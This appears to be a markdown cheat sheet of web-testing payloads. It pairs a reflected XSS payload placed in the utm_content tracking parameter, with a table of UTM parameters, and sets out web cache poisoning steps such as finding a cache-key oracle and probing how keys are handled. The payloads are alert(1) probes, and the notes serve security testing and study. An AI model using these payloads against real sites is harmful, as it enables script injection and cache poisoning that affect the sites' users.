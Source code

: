 
# ETC Payloads Header/parameters etc
```
GET /?utm_content='/><script>alert(1)</script>
Access-Control-Allow-Origin: * 

```

## UTM (Urchin Tracking Module)
parameters are tags added to URLs to help track the effectiveness of online marketing campaigns in Google Analytics or other analytics tools. Let me summarize the **five main UTM parameters** for clarity:


| **UTM Parameter**            | **Purpose**                                                                                   | **Example**                |
| ---------------------------- | --------------------------------------------------------------------------------------------- | -------------------------- |
| **utm\_source** *(required)* | Identifies **where the traffic is coming from** (the referrer).                               | `utm_source=google`        |
| **utm\_medium**              | Identifies the **marketing medium** (type of traffic).                                        | `utm_medium=ppc`           |
| **utm\_campaign**            | Identifies the **campaign name** (specific promotion, sale, or initiative).                   | `utm_campaign=spring_sale` |
| **utm\_term**                | Identifies **keywords or search terms** (mainly for paid search).                             | `utm_term=running+shoes`   |
| **utm\_content**             | Identifies the **specific link or creative** (useful for A/B testing and distinguishing ads). | `utm_content=logolink`     |

👉 These parameters can be placed in **any order** in the URL after a question mark (`?`) and separated by ampersands (`&`).

For example:

```
GET /?utm_content='/><script>alert(1)</script>
```

## Identify a suitable cache oracle
```
GET /?param=1 HTTP/1.1
Host: innocent-website.com
Pragma: akamai-x-get-cache-key

HTTP/1.1 200 OK
X-Cache-Key: innocent-website.com/?param=1
```
## Probe key handling
```
GET / HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 302 Moved Permanently
Location: https://vulnerable-website.com/en
Cache-Status: miss
```
## Unkeyed query string
Like the Host header, the request line is typically keyed. However, one of the most common cache-key transformations is to exclude the entire query string.
